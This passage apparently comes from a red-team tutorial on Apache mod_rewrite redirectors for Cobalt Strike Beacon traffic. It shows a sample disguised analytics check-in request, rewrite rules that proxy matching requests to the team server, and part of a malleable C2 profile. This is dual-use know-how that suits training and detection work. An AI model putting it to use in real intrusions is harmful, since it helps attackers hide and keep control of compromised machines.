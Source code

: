 
Each parameter gets added to the URI in the order in which they're defined.  So the above would be `___utm.gif?utmac=UA-2202604-2&utmcn=1` and so on.  Here's an example of a simple check-in request and an empty response (i.e. no new jobs were pending).
```bash
GET /___utm.gif?utmac=UA-2202604-2&utmcn=1&utmcs=ISO-8859-1&utmsr=1280x1024&utmsc=32-bit&utmul=en-US&utmcc=__utmaKFgztfuYXyCS1e0_9U_JbX5a4wIKqwoOGPEj4gMUCWMstv_UHlWTpOEav3Wqxkgz30RFJUobM_-c7ECCgPdTQzOBe8djfQ-v9epBzMnWhYf1s4CrmfikMPMipTM8iLscRveV-oujpScoiLPDUgrFJONy-m5V9yT0sBZIwsAq_3g HTTP/1.1
Host: localhost:8443
Accept: */*
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.0; WOW64; Trident/5.0; msn OptimizedIE8;ENUS)
Cache-Control: no-cache
X-Forwarded-For: 10.10.120.106
X-Forwarded-Host: 10.10.5.18
X-Forwarded-Server: 10.10.5.18
Connection: close

HTTP/1.1 200 OK
Date: Wed, 3 Nov 2021 13:41:22 GMT
Content-Type: image/gif
Content-Length: 40

GIF89a............!......,...........D.;
```
  

Adding another RewriteCond rule underneath the existing one turns them into an AND condition.  Where the request URI must contain `__utm.gif` and the query string must match what we expect as per the C2 profile.  We can't predict what the `utmcc` parameter value will be since it's metadata collected from on the compromised endpoint, but we do know it will always begin with `__utma`.
```bash
RewriteCond %{REQUEST_URI} __utm.gif [NC]
RewriteCond %{QUERY_STRING} utmac=UA-2202604-2&utmcn=1&utmcs=ISO-8859-1&utmsr=1280x1024&utmsc=32-bit&utmul=en-US&utmcc=__utma [NC]
RewriteRule .* https://localhost:8443%{REQUEST_URI} [P]
```
  

You may notice at this point that even though the Beacon is still checking in (if not you've made a mistake that is causing the traffic to drop), but it will no longer respond to commands.  This is because the response as defined in the `http-post` block is slightly different, so we need another rewrite condition to account for it.
```bash
set uri "/__utm.gif";                                                                                                                                          
set verb "GET";                                                                                                                                                
client {                                                                                                                                                       
        id {                                                                                                                                                   
                prepend "UA-220";                                                                                                                              
                append "-2";                                                                                                                                   
                parameter "utmac";                                                                                                                             
        }                                                                                                                                                      
                                                                                                                                                               
        parameter "utmcn" "1";                                                                                                                                 
        parameter "utmcs" "ISO-8859-1";                                                                                                                        
        parameter "utmsr" "1280x1024";                                                                                                                         
```